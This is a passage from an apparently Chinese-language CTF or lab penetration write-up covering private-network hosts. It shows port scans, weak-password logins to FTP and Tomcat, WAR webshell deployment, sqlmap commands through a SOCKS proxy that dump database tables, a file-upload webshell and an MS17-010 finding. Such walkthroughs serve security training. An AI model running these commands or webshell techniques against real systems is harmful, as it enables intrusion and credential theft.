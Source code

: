 192.168.6.15是一台FTP服务器。

```Bash
[+] 192.168.6.15:         - 192.168.6.15:22 - TCP OPEN
[+] 192.168.6.15:         - 192.168.6.15:21 - TCP OPEN
```

FTP服务器存在弱口令漏洞，可以通过123456登录，里面存着192.168.6.17的源码（非完全一致）。里面也有mail系统邮箱和密码的泄漏。这台服务器不存在flag，不撸下来其实问题也不大。

192.168.6.16是一个邮件系统。

![3](https://moxiaoxi.info/img/post/429/2.png)

如果撸下来前面的FTP服务器，就可以通过源码中泄漏的用户名和密码登录。此外，这个邮箱也是一个flag。

```bash
[+] 192.168.6.16:         - 192.168.6.16:22 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:80 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:3306 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:8009 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:8080 - TCP OPEN

```

16机器开着8080，是一个tomcat，可以通过弱口令manager登录，直接部署war包就能得到root权限，获得webshell。（<http://192.168.6.16:8080/manager/html>，http://192.168.6.16:8080/jsp/jsp.jsp?cmd=whoami）

拿到webshell后，可以得到一个flag。然后查看源码，查询数据库也可以得到邮件名字得到flag。此外，在这个服务器上的根目录也有一个flag。

这里很蛋疼，部署war包得到的是jsp的马，而蚁剑没办法管理jsp的马。有一个思路就是通过这个jsp，往80端口的php mail服务器写一个php的马，再通过蚁剑管理。



192.168.6.17是内网管理网站？。这里AWVS通过HTTP代理扫描了一下，又给了一个惊喜，直接给了sql盲注(http://192.168.6.17/message.php，id存在盲注)。

然后，通过socks代理直接sql注入即可。

```bash
python sqlmap.py --proxy=socks5://172.16.8.3:1088 -u "http://192.168.6.17/message.php?id=1" -D my_oa -T flag --dump
python sqlmap.py --proxy=socks5://172.16.8.3:1088 -u "http://192.168.6.17/message.php?id=1" -D my_oa -T admin --dump
```

Flag表中存在一个flag，这里注入出admin的密码后，反解一下。admin,37s984pass。

登录后，有一个上传点可以直接上传php马，然后获得webshell，翻一下目录也可以得到一个flag。

#### 域渗透

最后是一台windows服务器，应该就是域控制器，通过msf可以得到这台windows存在MS17-010的洞。

```bash
[+] 192.168.6.200:        - 192.168.6.200:53 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:80 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:135 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:445 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:3389 - TCP OPEN
192.168.6.200:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)

```
